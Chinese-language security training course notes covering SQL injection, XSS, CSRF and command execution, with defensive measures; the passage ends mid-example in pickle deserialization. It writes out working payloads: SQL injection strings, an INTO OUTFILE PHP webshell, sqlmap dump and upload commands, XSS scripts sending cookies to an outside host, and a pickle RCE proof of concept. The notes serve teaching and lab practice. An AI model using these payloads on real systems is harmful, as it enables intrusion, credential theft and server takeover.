







# 	风炫安全学习之基础入门培训（第一期）

主攻方向：Web安全、网络安全、安全开发、后端开发。

讲师ID： **风炫安全**

自研知识库：**https://evalshell.com**

视频地址：**https://www.bilibili.com/video/BV17A411j7Yk**

**教程只是为了提供学习和研究，所有技术切勿用于非法用途！**


本节课讲解：**信息收集之子域名收集**


## html基础

1. html表单
2. html常用标签
3. 前端攻防中常用的一些手法
   - 反射性XSS
   - Dom-based型XSS
   - 存储型XSS

学习的网站：https://www.w3school.com.cn/html/index.asp


## PHP基础

1. 变量
2. 函数
3. 数组
4. Cookie和Session
5. PHP与mysql的连接
6. 渗透测试中常用的一些函数phpinfo/system/eval/shell_exec/exec等

学习的网站：https://www.php.net/

公众号：风炫安全  (持续更新优质网络安全领域文章)

博客(知识库)： **https://evalshell.com**

Github地址： https://github.com/fengxuangit


## 数据库基础

1. 数据库的安装配置
2. 创建库表字段
3. CURD（增删改查）
4. 渗透测试中常见的一些函数load_file/into outfile/into dump等


## 常用术语解析


网页大马、小马、一句话、shell、webshell、肉鸡木马、后门、弱口令、免杀


## windows基础

1. 常见的端口
2. 常用的cmd命令
3. windows目录结构在渗透中的作用


## Linux基础

1. 安装Kail linux
2. Linux SSH的爆破
3. 讲解Linux系统中常见的命令


## 网络基础

1. 内外网区别和划分
2. Tcp/ip协议
3. HTTP协议


## SQL注入

#### 基础知识

数字： select username,email from users where id=1;

字符串：Select id,email from members where username='xxx';

搜索型：select id,email from member where username like '%v%';

我们所有的注入的攻击，本质上是对网站上的sql进行闭合 然后执行我们自己的payload

---

#### 基于报错的 updatexml()

allen' and updatexml(1,version(),0)#

allen' and updatexml(1,concat(0x7e, version()),0)# 


获取表名：

allen' and updatexml(1,concat(0x7e, (select table_name from information_schema.tables  where table_schema=database() limit 1,1)),0)# 
allen' and updatexml(1,concat(0x7e, (select table_name from information_schema.tables  where table_schema=database())),0)# 


获取列名：

allen' and updatexml(1,concat(0x7e, (select  column_name from information_schema.columns  where table_name='member' limit 1,1)),0)# 


   再来获取数据

   allen' and updatexml(1,concat(0x7e, (select pw from member  limit 0,1)),0)# 

   

   **基于报错的extractvalue函数**

   > 用法同上

   kobe' and extractvalue(0, concat(0x7e, database())) #


   **基于floor()**
   取整函数

   报错注入准确地说应该是floor,count,group by冲突报错

   Lucy' and (select 2 from (select count(*), concat(version(), floor(rand(0) * 2))x from information_schema.tables group by x)a )#

   

   

   **insert注入**

   

   ```sql
   insert into member(`username`, `pw`, `sex`, `phonenum`, `address`, `email`) values('123', '456', 'boy', 1, 2,3 );
   ```

   insert into member(username,pw) value('allen' or updatexml(1, concat(0x7e, database()),0) or ' ',122);

   

   **update注入**

   > 同上

   

   **delete注入**

   1 or updatexml(1,concat(0x7e, (select pw from member  limit 1,1)),0)

   

   **基于http header**

   Cookie：` ant[uname]=admin' and updatexml(1,concat(0x7e, (select pw from member  limit 1,1)),0)#`

   User-Agent: ` Firefox' or updatexml(1, concat(ox7e, database()), 0) or ' `

   

   **Sql盲注**

   lucy' and 1=1#

   lucy' and 1=2#

   

   布尔型的盲注：

   ```sql
   lucy' and ascii(substr(database(),1,1))=100#
   ```

   ```sql
   lucy' and ascii(substr(database(),1,1))>113#
   ```

   

   时间的盲注

   ```sql
   lucy' and sleep(5) #
   ```

``` sql
and if(ascii(substr(database(), 2,1))=99, sleep(3), 1)
```

  


#### sql高权限getshell


**前提条件：**

1. 需要知道目标网站绝对路径

2. 目录具有写的权限

3. 需要当前数据库用户开启了secure_file_priv

`select database() into outfile '/var/www/html/1.txt'`

`allen' union select 1,'<?php eval($_GET[w]); ?>' into outfile '/var/www/html/2.php' #`

`site: xxx.com  error`


**写文件**

into outfile 将select的结果写入到指定目录的1.txt中

在一些没有回显的注入中可以使用into outfile的结果写入文件中，然后获得权限


**读文件**

Load_file 函数可以读文件

`select load_file('/etc/my.cnf');`


#### sqlmap的使用

> sqlmap 是一个开源渗透测试工具，它可以自动检测和利用 SQL 注入漏洞并接管数据库服务器。它具有强大的检测引擎，同时有众多功能，包括数据库指纹识别、从数据库中获取数据、访问底层文件系统以及在操作系统上带内连接执行命令。

项目地址： https://github.com/sqlmapproject/sqlmap




- 第一步：`-u "xxx" ` -u 参数指定地址然后进行注入
- 第二步 `-u "xxx" --current-db` 获取到当前数据库信息
- 第三步 `-u "xxx" -D dbvuln --tables` 获取数据库中的表名
- 第四步 `-u "xxx" -D dbvuln -T users --columns` 获取表名中的字段
- 第五步 `-u "xxx" -D dbvuln -T users -C username,password --dump ` 获取表中的内容 

   

----


- –is-dba 当前用户权限（是否为root权限）
- –dbs 所有数据库
- –current-db 网站当前数据库
- –users 所有数据库用户
- –current-user 当前数据库用户
- –random-agent 构造随机user-agent
- –passwords 数据库密码
- –proxy http://local:8080 –threads 10 (可以自定义线程加速) 代理
- –time-sec=TIMESEC DBMS响应的延迟时间（默认为5秒）


**post注入**

使用burpsuite截取包，然后保存文件为1.txt(文件名随便取)，再使用 `sqlmap -r 1.txt --dbs `


**cookie注入**

`sqlmap -u “http://www.baidu.com/shownews.asp” –cookie “id=11” –level 2`（只有level达到2才会检测cookie）


**读写文件**

```sql
--file-read=RFILE 从后端的数据库管理系统文件系统读取文件 （物理路径）
--file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 （mssql xp_shell）
--file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
```


`sqlmap -r "c:\request.txt" -p id –dbms mysql –file-dest "e:\php\htdocs\dvwa\inc\include\1.php" –file-write "f:\webshell\1112.php"`

 将本地的f:\webshell\1112.php 写入到 远程服务器上e:\php\htdocs\dvwa\inc\include\1.php


`sqlmap -u "http://localhost/pikachu/vul/sqli/sqli_header/sqli_header.php" --cookie 'ant[uname]=admin; ant[pw]=10470c3b4b1fed12c3baac014be15fac67c6e815; PHPSESSID=6i60hcmeappdlkr216jovc0o6l' --level 2 --dbms mysql --file-read "/etc/my.cnf"` 

读取远程/etc/my.cnf文件


## 跨站脚本攻击（Cross-site scripting，通常简称为XSS）

- 反射型XSS原理与演示
  交互的数据不会存储在数据库里，一次性的。一般是查询导致或者是错误的js执行

- 存储型XSS原理与演示

  交互的数据会被存放在数据库里，永久性存储，一般出现在留言板，注册等页面

- Dom型XSS原理与演示
  漏洞是基于文档对象模型Document Objeet Model,DOM)的一种漏洞。不与后台服务器产生数据交互，是一种通过DOM操作前端代码输出的时候产生的问题，一次性也属于反射性


**形成XSS的原因主要是程序对输入输出的控制不够严格，导致“精心构造”的字符串被输入后，在输出到前端浏览器被当作有效代码执行从而形成危害**


- firefox浏览器
- chrome浏览器


### XSS漏洞测试流程

1. 在目标站点上找到输入点，比如查询输入框，留言板等
2. 输入“特殊字符+唯一标识符”，点击提交之后，查看返回的源码，是否有做对应的处理
3. 通过搜索定位到唯一字符，结合唯一字符前后语法确认是否可以构造JS的条件（构造闭合）
4. 提交构造的脚本代码（以及各种绕过姿势），看是否可以成功执行，如果成功执行则说明存在漏洞


**注意点：**

1. 一般查询输入框最容易出现反射型XSS，留言板容易出现存储型XSS

2. scirpt标签可能会被过滤掉，所以最好换其他的html标签

   ```html
   
   <p>
   <hr> 
   
   script
   scr/**/ipt
   scr%20ipt
   script
   ```

   

3. 通过变换不同的script标签，尝试绕过后台过滤机制


### 反射性xss演示


#### 原理讲解

> 如果一个应用程序使用动态页面向用户显示错误消息，就会造成一种常见的XSS漏洞。通常，该页面会使用一个包含消息文本的参数，并在响应中将这个文 本返回给用户。对于开发者而言，使用这种机制非常方便，因为它允许他们从应用程序中调用一个定制的错误页面，而不需要对错误页面中的消息分别进行硬编码。


```
<p>Sorry, an error occurred.</p>
```

提取用户提交的输入并将其插入到服务器响应的HTML代码中，这是XSS漏洞的一个明显特征；如果应用程序没有实施任何过滤或净化措施，那么它很容易受到攻击


#### 演示


#### 如何利用


### 存储型XSS演示


存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，加入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃cookie等。


反射型XSS，非持久化，需要欺骗用户自己去点击链接才能触发XSS代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。
如下面这个点击弹出自己的在该网站的cookie：


**最大的区别就是xss代码是否存储在服务器中。**


它是通过对网页注入可执行代码且成功地被浏览器执行，达到攻击的目的，一般是注入一段javascript脚本。在测试过程中，我们一般是使用：

```
<script>alert(1)</script>
```

通过这段js代码，弹个框来证明存在xss漏洞。那么，可能新手就会问了，弹个框有什么用呢？

其实，弹框只是为了证明存在此漏洞。而此漏洞的利用方式由很多种。


### Dom型XSS演示


通过Javascript，可以重构整个HTML文档，你可以添加、移除、改变或重排页面上的项目

要改变页面的某个东西，JavaScript就需要获得对HTML文档中所有元素进行访问的入口，这个入口，连同对HTML元素进行添加、移动、改变或者移除的方法和属性，都是通过文档对象模型来获得的（DOM）

所以，你可以把DOM理解为一个一个访问HTML的标准编程接口


### XSS如何利用

#### 获取COOKIE

我们使用pikachu写的pkxss后台

使用方法：

<script>document.location='http://fx.com/pikachu/pkxss/xcookie/cookie.php?cookie='+document.cookie;</script>


``

`<script src="http://fx.com/pikachu/pkxss/xfish/xfish.php"></script>`


#### XSS钓鱼攻击

**HTTP Basic Authentication认证**

> 大家在登录网站的时候，大部分时候是通过一个表单提交登录信息。
>
> 但是有时候浏览器会弹出一个登录验证的对话框，如下图，这就是使用HTTP基本认证。

在你访问一个需要HTTP Basic Authentication的URL的时候，如果你没有提供用户名和密码，服务器就会返回401，如果你直接在浏览器中打开，浏览器会提示你输入用户名和密码，也就是上面的图示。

要在发送请求的时候添加HTTP Basic Authentication认证信息到请求中，有两种方法：  

一是在请求头中添加Authorization：  Authorization: "Basic 用户名和密码的base64加密字符串"  。
二是在url中添加用户名和密码。


`<script src="http://fx.com/pikachu/pkxss/xfish/fish.php"></script>`


#### XSS键盘记录

同源策略是浏览器的一个安全功能，不同源的客户端脚本在没有明确授权的情况下，不能读写对方资源。所以xyz.com下的js脚本采用ajax读取abc.com里面的文件数据是会被拒绝的。

同源策略限制了从同一个源加载的文档或脚本如何与来自另一个源的资源进行交互。这是一个用于隔离潜在恶意文件的重要安全机制。


**注意,资源文件不受影响：**

 ```
<script src="...">


 ```


`<script src="http://fx.com/pikachu/pkxss/rkeypress/rk.js"></script>`


### XSS防御绕过

```
str_repalace('<script>', '')
```


- 前端限制绕过，直接burpsuite改包
- 大小写，尝试`<ScRipT>alert(1);</SCRipt>`
- 拼凑，比如`<scri<script>pt>alert(1);</scri<script>pt>`
- 使用注释干扰 `<scri<!--test-->pt>alert(1)</scr<!--test-->ipt>`


####XSS绕过-过滤-编码

核心思想

后台过滤了特殊字符，比如说<script>标签，但该标签可以被各种编码，后台不一定过滤，当浏览器对该编码进行识别的时候，会翻译成正常的标签，从而被执行。

`

**这样并不会执行，因为这些属性标签并不会正常解析这些编码**


使用html实体编码则可以

``


### XSS防御措施

#### 总的原则

**控制好输入/输出**


- 过滤：根据业务需求进行过滤，对email，手机号码这样的输入框进行验证。
- 转义：所有输出到前端的数据都根据输出点进行转义，对输入的字符串进行html实体化编码


#### PHP

php可以用以下函数来防御

```php
htmlspecialchars();
htmlentities();
HTMLPurifier.auto.php插件 http://htmlpurifier.org/download
RemoveXss函数 https://gist.github.com/aligundogdu/1839051
```


#### Python

**python库**

```python
>>> import cgi
>>> cgi.escape('<script>&"', quote=True)
'&lt;script&gt;&amp;&quot;'
```

```python
>>> HTMLParser.unescape.__func__(HTMLParser, '&lt;script&gt;&amp;&quot;')
u'<script>&"'
```

```python
import bleach
from bleach.sanitizer import ALLOWED_TAGS,ALLOWED_ATTRIBUTES

@require_http_methods(['POST'])defmessage(request):# 从客户端中获取提交的数据
    content = request.POST.get('content')

    # 在默认的允许标签中添加img标签
    tags = ALLOWED_TAGS + ['img']
    # 在默认的允许属性中添加src属性
    attributes = {**ALLOWED_ATTRIBUTES,'img':['src']}

    # 对提交的数据进行过滤
    cleaned_content=bleach.clean(content,tags=tags,attributes=attributes)

    # 保存到数据库中
    Message.objects.create(content=cleaned_content)

    return redirect(reverse('index'))
```


### JAVA

pom.xml

首先添加一个jar包：commons-lang-2.5.jar ，然后在后台调用这些函数：

```java
StringEscapeUtils.escapeHtml(string); 
StringEscapeUtils.escapeJavaScript(string); 
StringEscapeUtils.escapeSql(string);

<dependency>
<groupId>commons-lang</groupId>
<artifactId>commons-lang</artifactId>
<version>2.5</version>
</dependency>
```

或者自己编写一个XSSFilter静态类，可以直接调用


### JavaScript

- 设置Httponly

- 不要动态输出用户的输入

- 不要使用eval函数解析json，用JSON.parse()
  前后端分离

  ```
  eval('(' + jsonstr + ')')  #这种方式 是不严谨的解析
  
  JSON.parse()
  ```

  

- https://github.com/leizongmin/js-xss

  ```javascript
  <script src="https://rawgit.com/leizongmin/js-xss/master/dist/xss.js"></script>
  <script>
  // 使用函数名 filterXSS，用法一样
  var html = filterXSS('<script>alert("xss");</scr' + 'ipt>');
  alert(html);
  </script>
  ```

  

### CSRF

#### 简介

跨站请求伪造 (Cross-Site Request Forgery, CSRF)，也被称为 One Click Attack 或者 Session Riding ，通常缩写为CSRF，是一种对网站的恶意利用。尽管听起来像XSS，但它与XSS非常不同，XSS利用站点内的信任用户，而CSRF则通过伪装来自受信任用户的请求来利用受信任的网站。

在攻击的场景伪造一个请求（一般是一个链接），然后欺骗用户点击，用户一旦点击了这个请求，整个攻击也就完成了


**和XSS的区别**

CSRF是借用户的权限完成攻击，攻击者并没有拿到用户的权限，而XSS是直接盗取了用户的权限，然后实施破坏


#### 分类

- **资源包含**

资源包含是在大多数介绍CSRF概念的演示或基础课程中可能看到的类型。这种类型归结为控制HTML标签（例如<image>、<audio>、<video>、<object>、<script>等）所包含的资源的攻击者。如果攻击者能够影响URL被加载的话，包含远程资源的任何标签都可以完成攻击。

由于缺少对Cookie的源点检查，如上所述，此攻击不需要XSS，可以由任何攻击者控制的站点或站点本身执行。此类型仅限于GET请求，因为这些是浏览器对资源URL唯一的请求类型。这种类型的主要限制是它需要错误地使用安全的HTTP请求方式。


- **基于表单**

通常在正确使用安全的请求方式时看到。攻击者创建一个想要受害者提交的表单; 其包含一个JavaScript片段，强制受害者的浏览器提交。

该表单可以完全由隐藏的元素组成，以致受害者很难发现它。

如果处理cookies不当，攻击者可以在任何站点上发动攻击，只要受害者使用有效的cookie登录，攻击就会成功。如果请求是有目的性的，成功的攻击将使受害者回到他们平时正常的页面。该方法对于攻击者可以将受害者指向特定页面的网络钓鱼攻击特别有效。


- **XMLHttpRequest**

XMLHttpRequest可能是最少看到的方式，由于许多现代Web应用程序依赖XHR，许多应用花费大量的时间来构建和实现这一特定的对策。

基于XHR的CSRF通常由于SOP而以XSS有效载荷的形式出现。没有跨域资源共享策略 (Cross-Origin Resource Sharing, CORS)，XHR仅限于攻击者托管自己的有效载荷的原始请求。

这种类型的CSRF的攻击有效载荷基本上是一个标准的XHR，攻击者已经找到了一些注入受害者浏览器DOM的方式。


#### CSRF防御措施

- 增加token验证

  对关键操作增加token验证，token值必须随机，每次都不一样

- 关于安全的会话管理（SESSION）
  1. 不要在客户端保存敏感信息
  2. 关闭浏览器直接销毁SESSION
  3. 设置会话过期操作，比如超过15分钟没有操作，直接销毁SESSION

- 访问控制的安全管理
  1. 敏感信息修改的时候需要二次验证，比如修改密码需要验证旧密码。
  2. 敏感信息修改使用POST，而不是GET
  3. 通过HTTP头部的REFERER来限制原来页面
- 增加验证码


## 代码执行&命令执行

RCE漏洞，可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。

**远程系统命令执行**
一般出现这种漏洞，是因为应用系统从设计上**需要给用户提供指定的远程命令操作的接口**
　　比如我们常见的路由器、防火墙、入侵检测等设备的web管理界面上
一般会给用户提供一个ping操作的web界面，用户从web界面输入目标IP，提交后，后台会对该IP地址进行一次ping测试，并返回测试结果。而，如果，设计者在完成该功能时，**没有做严格的安全控制**，则可能会导致攻击者通过该接口提交“意想不到”的命令，从而让后台进行执行，从而控制整个后台服务器

**Windows系统命令拼接**

1. “|”:管道符，前面命令标准输出，后面命令的标准输入。例如：help |more
2. “&” commandA & commandB 先运行命令A，然后运行命令B
3. “||” commandA || commandB 运行命令A，如果失败则运行命令B
4. “&&” commandA && commandB 运行命令A，如果成功则运行命令B


**LINUX下系统命令拼接**

1. ；分号（**;**） 可以进行多条命令的**无关联执行**，每一条执行结果**不会影响其他命令**的执行

   ```
   ls ; cat file
   ```

   

2. &&   逻辑与, 左边的command1执行**成功**(返回0表示成功)后，**&&**右边的command2才能被执行。

   ```
   ➜   asdasdasd &&  cat testfile
   zsh: command not found: asdasdasd
   
   ➜  ls && cat testfile
   dvwa       pikachu    subject01  subject02  test.html  test2.html test3.html testenv    testfile
   test 30
   hello 95
   linux 85
   ```

   

3. || 逻辑或,如果 **||** 左边的command1执行**失败**(返回1表示失败)，才执行**||右边**的command2，否则不执行command2，具有短路功能。

   ```
   ➜  asdasda || cat testfile
   zsh: command not found: asdasda
   test 30
   hello 95
   linux 85
   ➜  ls  || cat testfile
   dvwa       pikachu    subject01  subject02  test.html  test2.html test3.html testenv    testfile
   ```

   

4. | 管道符，当用此连接符连接多个命令时，前面命令执行的正确输出，会交给后面的命令继续处理。若前面的命令执行失败，则会报错，若后面的命令无法处理前面命令的输出，也会报错。

   ```
   ➜   cat testfile
   test 30
   hello 95
   linux 85
   ➜ cat testfile | grep -n "hello"
   2:hello 95
   ➜  grep -n "hello" testfile
   2:hello 95
   ```

   

5. ()    如果想执行几个命令，则需要用命令分隔符分号隔开每个命令，并使用**圆括号()把所有命令组合**起来。

   结合||和&&可以实现复杂的功能。

   ```shell
   ➜   sort testfile
   hello 95
   linux 85
   test 30
   ➜   sort testfile > test.sort && (cp test.sort /tmp/; cat /tmp/test.sort)
   hello 95
   linux 85
   test 30
   ```

   

   

   ```
   file_put_contents('/var/www/html/pikachu/vul/rce/x.php', '<?php eval($_GET[w]);?>')
   ```


#### Python 语言可能发生的命令执行漏洞

- **内置危险函数**


```
eval和exec函数
```

`eval`

eval是一个python内置函数，语法为eval(expression, globals=None,locals=None)

eval函数接收三个参数：其中 expression
参数是用做运算的字符串类型表达式；globals参数用于指定运行时的全局命名空间；Locals参数用于指定运行时的局部命名空间。globals与 locals 是可选参数，默认值是 None，他们只在运算时起作用，运算后则销毁。

`exec`

在Python2中exec是一个内置语句(statement)而不是一个函数，但是到了Python3中exec将Python2中作为内置语句的exec和execfile()函数功能整合到一起，成为了一个新的函数，语法为exec(object[, globals[,locals]])

exec的第一个参数可以是code object，因此它可以执行复杂的代码逻辑，例如变量赋值操作等，这一点是eval做不到的。但exec返回值永远为 None，因此exec不能像eval一样将计算结果返回。exec的后两个参数与eval一致


- **标准库危险模块**

  ```
  os
  subprocess
  ```

  

  

- **反序列化：**

  pickle和cpickle

  `pickle.loads`	

```
>>> import cPickle
>>> cPickle.loads("cos\nsystem\n(S'uname -a'\ntR.")
Linux RCM-RSAS-V6-Dev 3.9.0-aurora #4 SMP PREEMPT Fri Jun 7 14:50:52 CST 2013 i686 Intel(R) Core(TM) i7-2600 CPU @ 3.40GHz GenuineIntel GNU/Linux
0
```

```
import cPickle
import os
import urllib

class genpoc(object):
    def __reduce__(self):
        s = """ls /"""  #要执行的命令
        return os.system, (s,)        #os.system("echo test >poc.txt")

e = genpoc()
poc = cPickle.dumps(e)

print poc
print urllib.quote(poc)
fp = open("poc.pickle","w")
fp.write(poc) # 生成 pickle文件

-----------------------
import pickle

